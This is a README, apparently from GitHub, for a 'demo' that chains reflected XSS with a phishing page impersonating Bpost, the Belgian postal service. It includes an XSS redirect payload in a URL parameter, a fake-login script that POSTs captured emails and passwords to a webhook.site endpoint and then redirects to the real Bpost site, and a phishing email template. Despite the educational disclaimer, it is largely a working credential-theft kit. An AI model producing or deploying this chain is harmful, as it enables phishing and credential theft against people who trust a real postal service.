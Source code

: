 
# XSS Bpost Demo 🚨

This project demonstrates a realistic Reflected XSS (Cross-Site Scripting) attack in a simulated delivery tracking scenario, mimicking the Belgian postal service Bpost. It includes a phishing login page, a fake email, and a redirection to the real Bpost site after credential capture.

---

## 📁 Project Structure

```
xss-bpost-demo/
│
├── index.html           # Main vulnerable tracking page (XSS injection via `trackid` parameter)
├── fake-login.html      # Fake login page (captures credentials and sends them to webhook)
├── fake-email.html      # Phishing email page (HTML standalone preview)
└── README.md            # This documentation file
```

---

## 🎯 Objective

Demonstrate a full XSS chain including:

1. **Reflected XSS** injection via URL parameter.
2. Auto-redirection to a **fake login page**.
3. Capture of **user credentials** to a webhook (e.g. webhook.site).
4. Redirection to the **official Bpost website** to maintain user trust.

---

## 🧪 Reflected XSS Injection

Open in browser (local server must be running):

```
http://localhost:8000/index.html?trackid=<script>window.location.href='fake-login.html'</script>
```

This injects a script that redirects the user to the phishing login page.

---

## 🕵️‍♀️ Fake Login Page

`fake-login.html` contains a simple login form that:

- Accepts `email` and `password`
- Sends credentials to a webhook endpoint (e.g., [Webhook.site](https://webhook.site))
- Redirects the user to the real Bpost site (`https://track.bpost.cloud/btr/web/#/search`) after login

The script used in `fake-login.html`:

```javascript
const form = document.querySelector("form");
form.addEventListener("submit", (e) => {
    e.preventDefault();
    const email = document.getElementById("email").value;
    const password = document.getElementById("password").value;

    fetch("[https://webhook.site/](https://webhook.site/b729d597-59d8-44da-948a-383d7d9a90bb)l", {
        method: "POST",
        body: JSON.stringify({ email, password }),
        headers: { "Content-Type": "application/json" }
    }).then(() => {
        window.location.href = "https://track.bpost.cloud/btr/web/#/search";
    });
});
```

> Replace the webhook URL with your own unique one from webhook.site.

---

## ✉️ Fake Email Template

`fake-email.html` simulates a phishing email stating:

- The delivery failed
- The user must click a button to reschedule

Button link leads to the vulnerable `index.html` page with XSS payload injected.

---

## 📸 Screenshots

- Fake email preview (HTML)
- Phishing login interface (mimics Bpost)
- Webhook request showing credentials captured
- Optional: Chrome DevTools with injected URL

---

## ⚠️ Legal Disclaimer

Made by Jessica (2025)

This project is for educational and ethical hacking demonstrations **only**.

Do not deploy this code against real services or users. Always have authorization.

---

